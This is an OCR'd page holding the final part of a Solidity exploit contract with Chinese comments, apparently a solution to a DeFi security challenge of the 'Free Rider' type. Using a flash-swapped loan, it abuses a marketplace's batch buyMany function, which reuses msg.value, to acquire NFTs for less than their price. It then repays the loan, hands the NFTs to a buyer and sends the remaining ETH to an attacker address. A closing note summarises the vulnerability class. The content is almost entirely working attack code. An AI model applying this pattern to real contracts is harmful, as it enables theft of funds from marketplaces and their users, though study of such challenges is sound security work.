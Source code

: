 ```
        console.log("success in line", 65);
        //先买两个NFT
        uint256[] memory tokenids1 = new uint256[](2);
        tokenids1[0] = 0;
        tokenids1[1] = 1;
        market.buyMany{value: 30 ether}(tokenids1);

        //以90的价格放入市场
        nft.setApprovalForAll(address(market), true);
        uint256[] memory price1 = new uint256[](2);
        price1[0] = 90 ether;
        price1[1] = 90 ether;
        market.offerMany(tokenids1, price1);

        //利用重入漏洞以90ether的价格买下这两个NFT
        market.buyMany{value:90 ether}(tokenids1);

        //还款
        uint256 fee = ((120 ether * 3) / uint256(997)) + 1;
        weth.deposit{value: 120 ether + fee}();
        weth.transfer(address(uniswapPair), 120 ether + fee);

        //用60ETH买4个NFT
        tokenids1 = new uint256[](4);
        tokenids1[0] = 2;
        tokenids1[1] = 3;
        tokenids1[2] = 4;
        tokenids1[3] = 5;
        market.buyMany{value:60 ether}(tokenids1);

        //把六个nft都给buyer
        for(uint8 tokenId = 0; tokenId < 6; tokenId++){
            nft.safeTransferFrom(address(this), buyer, tokenId);
        }
     
        //
        payable(address(attcker)).transfer(address(this).balance);
    }

    receive() external payable {}

    function onERC721Received(address, address, uint256, bytes memory) external pure override returns (bytes4) {
        return IERC721Receiver.onERC721Received.selector;
    }

}
```

* 总结：在合约中重用相同的内容（通常通过循环或某种批处理/多调用函数）是一个非常重要的漏洞。
